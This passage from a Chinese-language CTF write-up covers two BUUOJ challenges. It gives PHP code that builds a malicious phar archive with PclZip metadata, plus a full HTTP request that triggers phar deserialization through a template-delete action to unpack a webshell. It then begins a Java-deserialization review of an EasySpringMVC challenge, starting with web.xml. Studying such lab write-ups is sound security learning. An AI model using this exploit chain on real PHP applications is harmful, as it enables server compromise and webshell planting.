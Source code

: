     	    return;
	    }

    }

    $a=new PclZip("/var/www/html/data/attachment/brand/1.zip");//压缩的文件路径
    echo serialize($a);
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($a);
    $phar->addFromString("test.txt", "troy3e");
    $phar->stopBuffering();
     ?>

目的是后面反序列化时（moban.php里的那个del触发）触发PclZip类，解压webshell的压缩文件然后写入我们指定的目录，完美。
然后嘞，康康师傅的wp先~
哦 还有一个注意点就是625行那个函数，需要传一个token，抓包即可获得。
执行exp生成phar.phar然后修改后缀为可上传的任意后缀（txt
上传webshell的压缩文件和phar.txt（burp抓包改
上删文件触发反序列化
GET /admin.php?mod=moban&act=del&token=07aeb0cfb9db219504d34f4edfa2a135&tpl=phar:///var/www/html/data/attachment/brand/3.txt HTTP/1.1
Host: 9515c71a-972b-419f-847a-eb166c73ba9b.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://9515c71a-972b-419f-847a-eb166c73ba9b.node3.buuoj.cn/admin.php?mod=moban
Cookie: UM_distinctid=178395fbb40cc-02783c99f63357-4c3f227c-1fa400-178395fbb417c4; PHPSESSID=pgqota5okm9rgj7s3oammmvu14
Upgrade-Insecure-Requests: 1
这里3.txt路径是可以在上传界面获得的
参考：https://nikoeurus.github.io/2019/10/14/RoarCTF/#%E5%90%8E%E5%8F%B0getshell
https://blog.csdn.net/mochu7777777/article/details/107550135
https://guokeya.github.io/post/zE_m1kHQm/

还是得多分析源码才能进步。

## [V&N2020 公开赛]EasySpringMVC
关键词：Java反序列化
Java反序列化没怎么仔细研究过 这两次比赛吃了很大的亏 
总结一篇博客学习一下 见 Java反序列化学习.md
http://1cd4a2bb-5036-4365-be52-3f7b33bbb5b8.node3.buuoj.cn/springmvcdemo/showpic.form?file=showpic.jsp
上传图片点 需要webmanager组权限 file参数尝试任意文件读取显示only show you picture file !（失败
开始审源码，拖到jdgui里
首先看web.xml。（web.xml是J2EE定义的描述这个webapp的一个配置文件，非常重要。）  
    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <context-param>
            <param-name>contextConfigLocation</param-name>
            <param-value>/WEB-INF/applicationContext.xml</param-value>
        </context-param>
        <listener>
            <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
        </listener>
        <filter>
            <filter-name>clientinfo</filter-name>
            <filter-class>com.filters.ClentInfoFilter</filter-class>